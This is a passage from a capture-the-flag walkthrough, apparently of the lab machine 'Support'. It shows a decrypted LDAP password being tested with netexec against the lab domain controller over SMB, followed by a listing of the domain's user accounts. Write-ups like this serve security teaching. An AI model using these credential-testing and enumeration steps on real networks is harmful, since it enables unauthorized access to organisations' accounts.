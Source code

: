 Now we unleash our shiny new script 
```bash
python3 decrypt.py
Decrypted password: nvEfEK16^1aM4$**********
```
# Foothold
Lets try the password we have found with ```netexec``` to confirm the password works with our ```ldap``` user.

```bash
netexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7********************'    
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7********************
```
It works, so we proceed to user enumeration

```bash
netexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7********************' --users
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7******************** 
SMB         10.10.11.174    445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                               
SMB         10.10.11.174    445    DC               Administrator                 2022-07-19 17:55:56 0       Built-in account for administering the computer/domain                                                                                                                                                
SMB         10.10.11.174    445    DC               Guest                         2022-05-28 11:18:55 0       Built-in account for guest access to the computer/domain                                                                                                                                              
SMB         10.10.11.174    445    DC               krbtgt                        2022-05-28 11:03:43 0       Key Distribution Center Service Account 
SMB         10.10.11.174    445    DC               ldap                          2022-05-28 11:11:46 0        
SMB         10.10.11.174    445    DC               support                       2022-05-28 11:12:00 0        
SMB         10.10.11.174    445    DC               smith.rosario                 2022-05-28 11:12:19 0        
SMB         10.10.11.174    445    DC               hernandez.stanley             2022-05-28 11:12:34 0        
SMB         10.10.11.174    445    DC               wilson.shelby                 2022-05-28 11:12:50 0        
SMB         10.10.11.174    445    DC               anderson.damian               2022-05-28 11:13:05 0        
SMB         10.10.11.174    445    DC               thomas.raphael                2022-05-28 11:13:21 0        
SMB         10.10.11.174    445    DC               levine.leopoldo               2022-05-28 11:13:37 0        
SMB         10.10.11.174    445    DC               raven.clifton                 2022-05-28 11:13:53 0        
SMB         10.10.11.174    445    DC               bardot.mary                   2022-05-28 11:14:08 0        
SMB         10.10.11.174    445    DC               cromwell.gerard               2022-05-28 11:14:24 0        
SMB         10.10.11.174    445    DC               monroe.david                  2022-05-28 11:14:39 0        
SMB         10.10.11.174    445    DC               west.laura                    2022-05-28 11:14:55 0        
SMB         10.10.11.174    445    DC               langley.lucy                  2022-05-28 11:15:10 0        
```